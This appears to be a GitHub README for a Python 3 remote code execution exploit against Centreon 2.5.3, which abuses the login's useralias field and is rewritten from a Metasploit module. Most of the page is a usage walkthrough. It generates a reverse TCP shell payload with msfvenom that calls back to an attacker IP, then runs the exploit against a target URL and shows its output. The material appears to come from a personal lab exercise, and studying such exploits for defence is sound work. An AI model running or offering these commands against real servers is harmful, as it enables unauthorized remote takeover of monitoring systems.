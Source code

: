 # Centreon 2.5.3 Reverse Shell RCE via web useralias login
Standalone Python 3 reverse shell remote code exploit for Centreon 2.5.3, rewritten from [this Metasploit module](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/linux/http/centreon_useralias_exec.rb)

Writeup [here](https://ivanitlearning.wordpress.com/2019/10/11/ruby-exploit-rewrite-centreon-2-5-3-web-useralias-rce/) on setting up the target and exploit explanation


Tested with Python 3.7 on target Centreon 2.5.3 running on
* mysql 5.7
* php 5.6.40
* Ubuntu Server 16.04.6 LTS

## Usage
```
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# msfvenom --platform python -a python -p python/shell_reverse_tcp LHOST=192.168.92.134 LPORT=4445 -f raw -o payload.py
No encoder or badchars specified, outputting raw payload
Payload size: 397 bytes
Saved as: payload.py
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# ./centreon-2.5.3.py -h
usage: centreon-2.5.3.py [-h] -url URL -py PY

Required arguments:
  -url URL  URL of the Centreon login eg. http://192.168.92.152/centreon
  -py PY    Path to Python payload eg. payload.py in working dir
root@Kali:~/Infosec/RubyStuff/Centreon-2.5.3# ./centreon-2.5.3.py -url http://192.168.92.152/centreon -py payload.py 
Version Detected: 2.5.3
Target is vulnerable, proceeding...
Sending malicious login
```
